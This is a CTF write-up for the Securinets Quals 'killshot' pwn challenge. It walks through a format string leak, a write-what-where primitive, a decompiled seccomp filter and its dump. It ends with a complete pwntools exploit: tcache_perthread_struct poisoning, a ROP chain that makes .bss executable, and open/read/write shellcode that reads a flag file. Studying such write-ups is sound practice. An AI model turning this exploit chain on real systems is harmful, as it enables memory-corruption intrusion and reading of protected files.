

## Securinets Quals CTF: killshot [pwn]

#### This will only be a brief writeup/exploit analysis on the solution for the killshot challenge. During the duration of the ctf, I was able to figure out what to do with the early stages but ran out of ideas after my initial `__free_hook` try on the heap part. I analyzed [stdnoerr's](https://twitter.com/stdnoerr) exploit script and learned new stuff which will be useful for future challenges.

## target recon
#### We were given a challenge binary and its corresponding libc. While waiting for ghidra to load and analyze the challenge binary, I played around with it and discovered the format string vulnerability, a write-what-where primitive, and a heap exploit stage.

```
This is an introduction to format string vulnerability!
Format: %4$p
0x57cb130f2260
Now this is an introduction to WWW (not the web) \o/
Pointer: 1337
Content: :BOOBA:
Now let's take it's time for heap exploitation session.
1- Add
2- delete
3- exit
1- Add
2- delete
3- exit
```

#### We can leverage the format string to leak needed offsets and use the www primitive to write any thing we want to any address that we can control. Since the version of libc provided was 2.27, we take note of the tcache mechanism. 

## initial plan
#### It was pretty straightforward at first, what I did was to leak a libc address, calculate the libc base, then write system's address to free hook using WWW. After verifying that free_hook was indeed containing system, I tried to free a chunk with /bin/sh on it but got a bad syscall error message. Looking at the decompiled code reveals the culprit:

```c
void jail_setup(void)

{
  int iVar1;
  long lVar2;
  
  lVar2 = seccomp_init(0);
  if (lVar2 == 0) {
    puts("seccomp_init() error");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  seccomp_rule_add(lVar2,0x7fff0000,0,0);
  seccomp_rule_add(lVar2,0x7fff0000,1,0);
  seccomp_rule_add(lVar2,0x7fff0000,10,0);
  seccomp_rule_add(lVar2,0x7fff0000,0x101,0);
  seccomp_rule_add(lVar2,0x7fff0000,5,0);
  iVar1 = seccomp_load(lVar2);
  if (iVar1 < 0) {
    seccomp_release(lVar2);
    puts("seccomp_load() error");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  seccomp_release(lVar2);
  return;
}
```
#### The binary had seccomp enabled. To see what syscalls are blocked, we can simply dump them using seccomp-tools.
```
(bionic)blackb3ard@localhost:~/Desktop/securinets/pwn_killshot$ seccomp-tools dump /home/blackb3ard/Desktop/securinets/pwn_killshot/kill_shot 
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011
 0005: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0010
 0006: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0010
 0007: 0x15 0x02 0x00 0x00000005  if (A == fstat) goto 0010
 0008: 0x15 0x01 0x00 0x0000000a  if (A == mprotect) goto 0010
 0009: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0011
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0011: 0x06 0x00 0x00 0x00000000  return KILL

```
## i'm outie
#### Since I had no idea what to do next, it was at this point that I bailed on the challenge and focused on my requirements instead. After the ctf ended and I joined the ARESx ctf team discord server, I saw stdnoerr's exploit and noted the following approaches:

## analysis
#### An overview of his exploit plan is the following:
- Leak libc offsets, binary base, heap base, and location of return address in the stack using format string vuln.
- use the WWW primitive to write the return address location into tcache_perthread_struct as a chunk with the highest size. the idea here is to get a chunk on top of the return address.
- after we allocate and get the return address chunk, we use pwntool's rop functionality to write a ropchain for us which memset's .bss with rwx permissions, read shellcode which will be stored at an offset somewhere in .bss, and then return to the start of our shellcode.
- the shellcode will do the following instructions: use the openat syscall to get a file descriptor on the flag file, read the contents of the file into a buffer in .bss, then write the contents of the flag file into stdout.

#### Instead of using his code, I rewrote my own and stepped through it in a debugger to fully understand what was happening.

```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
context.arch = 'amd64'
binary = ELF('./kill_shot', checksec = False)
libc = ELF('./libc.so.6', checksec = False)

p = process('./kill_shot', env = {'LD_PRELOAD' : libc.path})
print(p.recvuntil(b'Format: '))

#: GDB SETTINGS
breakpoints = ['brva 0x10b3', 'brva 0x1182', 'brva 0x10b3', 'brva 0x0f10', 'brva 0xfe2', 'brva 0xf11']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))
#gdb.attach(p)

#: EXPLOIT INTERACTION STUFF
def alloc_chunk(size, data):

	p.sendline('1')
	print(p.recvuntil(b'Size: '))
	p.sendline(str(size))
	print(p.recvuntil(b'Data: '))
	p.sendline(data)
	print(p.recvuntil(b'exit\n'))

#: PWN THY VULNS
p.sendline("%4$p:%13$p:%25$p:%27$p")
leaks = p.recvuntil(b'\n').strip().split(b':')

heap_base = int(leaks[0], 16) - 0x260
binary.address = int(leaks[1], 16) - 0xd8c
libc.address = (int(leaks[2], 16) - 231) - libc.symbols['__libc_start_main']
main_ret_addr_location = int(leaks[3], 16) - 0xe0
bss = binary.bss() & -0x1000

log.info('heap_base: ' + hex(heap_base))
log.info('binary_base: ' + hex(binary.address))
log.info('libc_base: ' + hex(libc.address))
log.info('ret_addr_location: ' + hex(main_ret_addr_location))
log.info('bss: ' + hex(bss))

#: WRITE-WHAT-WHERE PRIMITIVE
tcache_perthread_struct = 0x10
tcache_count = 64
tcache_max_size = 504

print(p.recvuntil(b'Pointer: '))
p.sendline(str(heap_base + tcache_perthread_struct + tcache_count + tcache_max_size)) #: TRICK TCACHE PERTHREAD STRUCT INTO THINKING WE HAVE A 0x400 SIZED CHUNK IN THE TCACHE
print(p.recvuntil(b'Content: '))
p.sendline(p64(main_ret_addr_location)) #: ALLOCATE A CHUNK ON TOP OF THE RET ADDR LOCATION, WRITE ROPCHAIN HERE

#: ROPCHAIN ON A HEAP CHUNK
path = b'/home/blackb3ard/Desktop/flag.txt\x00'

rop_payload = ROP(libc)
rop_payload.mprotect(bss, 0x1000, 0x7) #: SET BSS AS RWX
rop_payload.read(0, bss + 0x100, 1024) #: READ SHELLCODE INTO BSS
rop_payload.raw(bss + 0x100 + len(path)) #: RETURN TO SHELLCODE

print(p.recvuntil(b'exit\n'))
alloc_chunk(0x400, rop_payload.chain())
p.sendline('3')

#: openat, read, write SHELLCODE ON .BSS
shellcode = f'''
	mov rax, 257
	mov rdi, 0
	mov rsi, {bss + 0x100}
	mov rdx, 0
	mov rcx, 0
	syscall

	mov rdi, rax
	mov rax, 0
	mov rsi, {bss}
	mov rdx, 1024
	syscall

	mov rdx, rax
	mov rax, 1
	mov rdi, 1
	mov rsi, {bss}
	syscall
'''

#time.sleep(0.2)
shellcode = asm(shellcode)
p.sendline(path + shellcode)
p.interactive()
#: credits to: stdnoerr, a strong pwn player
```

